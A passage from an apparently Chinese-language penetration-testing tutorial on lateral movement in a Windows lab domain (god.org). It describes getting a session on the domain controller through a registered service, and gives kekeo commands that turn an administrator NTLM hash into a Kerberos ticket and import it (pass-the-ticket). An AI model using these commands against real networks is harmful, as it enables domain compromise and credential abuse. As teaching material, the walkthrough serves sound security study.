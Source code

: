 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7nXXorhLRkGMy2pJf4yOe2ACBbCnS4unKXsN328hwCSzx1w9TOI6icSA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7FxO5kuLPPTicwxedeTfoXLP1AERnuFqyicmoGoyxFClRYVSthUUenQKQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后可以dir一下，发现成功复制  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Nj8H7mYccs68hfdsO87jd7IpFFuUazGJ1YjOyperyoMAJYP2hArIrA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7QM6XT4aiaKFcSLu0U9c0PMGYX2oJVGZw0RQgTAobk6AgjM0fmLHldmg/640?wx_fmt=png&from=appmsg "")  
  
  
上述注册binpath=后面的一个空格，不然会报help  
  
  
然后执行任务，connect连接，成功上线dc  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7TdgsicJaap0RUzYOQ22JTxwPIhMgVuegcYGkaVjVnpyvcWI8nC7MHcQ/640?wx_fmt=png&from=appmsg "")  
  
  
但是有个小bug？莫非是工具的问题？过了一小段时间就失效了，可能需要权限维持。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7g1xicJAE3Mibul2icIGQkR0phJqhnZ6qVBkYknc5XibWVfibiaXuF7FFx3Xw/640?wx_fmt=png&from=appmsg "")  
  
###### 利用NTLM  
  
  
这种方法其实就是之前PTH中利用hash转成ptt传递，下面的方法就是将NTLM生成一个票据来进行攻击。为什么呢？因为之前的PTH是通过hash来进行传递，同时是通过各种协议来进行横向移动的，如WMI,SMB等协议，而关于这些协议的横向移动可能会受到防火墙的影响，而这种Hash转成ptt传递可以规避防火墙的影响！  
  
  
kekeo(高权限，需NTLM)-利用获取的NTLM生成新的票据尝试认证  
  
  
因为当前主机肯定之前与其他主机连接过，所以本地应该生成了一些票据，我们可以导出这些票据，然后再导入票据，利用。该方法类似于cookie欺骗。  
  
  
缺点：票据是有有效期的，所以如果当前主机在连接过域控的话，有效期内可利用。  
  
```
#生成票据
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7w1Ju2Mia0addRj4DicAklzh85GBPARic8NYJr9CSyJhqFVFSOiaz5qwRPA/640?wx_fmt=png&from=appmsg "")  
  
  
ls发现新生成了一个票据文件  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7icRedSPkusT7L9qPYMpDO4pzickENgqdiaJFzU8vVDLF2rWMjdto3FFyw/640?wx_fmt=png&from=appmsg "")  
  
```
#导入票据
shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
```  
  